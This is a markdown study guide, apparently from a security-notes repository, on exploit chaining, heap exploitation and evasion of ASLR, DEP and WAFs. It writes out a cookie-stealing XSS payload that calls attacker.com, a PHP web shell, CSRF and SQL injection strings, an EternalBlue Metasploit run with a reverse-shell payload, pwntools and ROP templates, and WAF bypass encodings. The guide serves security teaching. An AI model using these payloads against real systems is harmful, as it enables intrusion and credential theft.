


---
# Advanced Exploitation Techniques
---

## Overview

Modern exploitation in 2026 focuses on **multi-stage attack chains**, **heap-based memory corruption**, and **defense evasion (Address Space Layout Randomization - ASLR, Data Execution Prevention - DEP, Web Application Firewall - WAF)**. Attackers no longer rely on single vulnerabilities but combine multiple weaknesses to achieve full system compromise.

Key areas:
- Exploit chaining (Cross-Site Scripting - XSS → Remote Code Execution - RCE, Cross-Site Request Forgery - CSRF + Structured Query Language Injection - SQLi)
- Heap overflow exploitation
- Custom exploit development
- Defense evasion techniques

---

## Exploit Chaining (Multi-Stage Attacks)

### Attack Chain Model



---

### XSS → RCE via Session Hijacking

#### Stage 1: Cross-Site Scripting (XSS) Payload

```html
<script>
fetch("http://attacker.com/steal?c="+document.cookie)
</script>
```

#### Stage 2: Session Hijacking

```http
Cookie: PHPSESSID=stolen_session
```

#### Stage 3: Admin Impersonation

* Access admin panel
* Bypass authentication using stolen session

#### Stage 4: Remote Code Execution (RCE) via File Upload

```php
<?php system($_GET['cmd']); ?>
```

```bash
http://target/uploads/shell.php?cmd=id
```

#### Success Criteria

* Valid admin session obtained
* Remote command execution achieved

---

### CSRF + SQL Injection Chain

#### Attack Flow

1. Cross-Site Request Forgery (CSRF) forces authenticated action
2. Structured Query Language Injection (SQLi) bypasses validation
3. Privilege escalation achieved

#### CSRF Payload

```html
<form action="http://target/admin/update" method="POST">
<input name="role" value="admin">
</form>
<script>document.forms[0].submit()</script>
```

#### SQL Injection

```sql
' OR 1=1--
```

#### Impact

* Admin access
* Database compromise
* Potential RCE via file write

---

### EternalBlue (CVE-2017-0144) Attack Chain

```mermaid

graph TD
A[Server Message Block version 1 (SMBv1) Request] --> B[Heap Grooming]
B --> C[Buffer Overflow]
C --> D[Kernel Execution]
D --> E[DoublePulsar Backdoor]
E --> F[Lateral Movement]
```

#### Stage Breakdown

* **SMBv1 Overflow**: Exploits Server Message Block protocol handling
* **Heap Grooming**: Controls memory allocation layout
* **Kernel Exploitation**: Achieves privileged execution
* **DoublePulsar**: Installs persistent backdoor
* **Propagation**: Worm-like spread across network

#### Metasploit (Conceptual)

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
run
```

---

## Custom Exploit Development

### Exploit-DB (Exploit Database) PoC (Proof of Concept) Modification

#### Common Variables

```python
RHOST = "192.168.1.10"
RPORT = 80
LHOST = "192.168.1.5"
LPORT = 4444
```

#### Workflow

1. Replace target parameters
2. Adjust memory offsets
3. Insert payload
4. Add reliability checks

---

### Pwntools Exploit Template

```python
from pwn import *

context.binary = './vuln'
p = process('./vuln')

payload = b"A" * cyclic_find(0x6161616c)
payload += p64(0xdeadbeef)

p.sendline(payload)
p.interactive()
```

---

### Heap Exploitation Concepts (TCM Security)

#### Heap Layout

```
[Chunk A][Chunk B][Chunk C]
```

#### Techniques

* Adjacent Chunk Overflow
* Use-After-Free (UAF)
* Thread Cache (tcache) Poisoning
* Function Pointer Overwrite



---

### Function Pointer Overwrite

```c
void (*func)();
func = attacker_controlled;
func();
```

---

### Custom TCP (Transmission Control Protocol) Exploit Concept

```python
from scapy.all import *

pkt = IP(dst="target")/TCP(dport=445)/Raw(load="exploit_data")
send(pkt)
```

---

## Defense Evasion Techniques

### ASLR (Address Space Layout Randomization) Bypass

#### Methods

* Information leak
* Partial overwrite
* Brute force

```python
leaked_addr = recv()
base = leaked_addr - offset
```

---

### DEP (Data Execution Prevention) Bypass using ret2libc

#### Concept

```
system("/bin/sh")
```

#### ROP (Return-Oriented Programming) Chain

```python
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)
```

---

### ROP Gadget Discovery

```bash
ROPgadget --binary vuln
```

---

### WAF (Web Application Firewall) Bypass Techniques

| Technique           | Example                       |
| ------------------- | ----------------------------- |
| Encoding            | `%3Cscript%3E`                |
| Case Variation      | `<ScRiPt>`                    |
| Fragmentation       | `scr` + `ipt`                 |
| HTML Trick          | `<details ontoggle=alert(1)>` |
| Base64 Encoding     | `eval(atob(...))`             |
| Parameter Pollution | `id=1&id=2`                   |
| Unicode Encoding    | `\u003cscript\u003e`          |
| Null Byte Injection | `%00`                         |
| JSON Injection      | `{ "id": "1 OR 1=1" }`        |
| Header Injection    | `X-Forwarded-For`             |

---

## Key Takeaways

* Modern attacks rely on **chaining vulnerabilities**
* Heap exploitation is critical for bypassing modern protections
* Return-Oriented Programming (ROP) and ret2libc are essential for bypassing DEP and ASLR
* WAF evasion requires payload obfuscation techniques
* Real-world exploitation combines multiple layers into a single attack chain

---

